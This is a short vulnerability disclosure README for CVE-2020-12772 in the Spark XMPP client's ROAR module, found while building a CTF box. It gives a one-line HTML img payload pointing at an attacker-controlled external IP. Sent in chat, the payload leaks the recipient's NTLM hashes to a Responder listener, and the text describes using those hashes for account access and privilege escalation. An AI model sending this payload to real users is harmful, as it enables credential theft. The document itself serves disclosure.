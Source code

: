 # CVE-2020-12772

## Description
When @anqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our privileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway
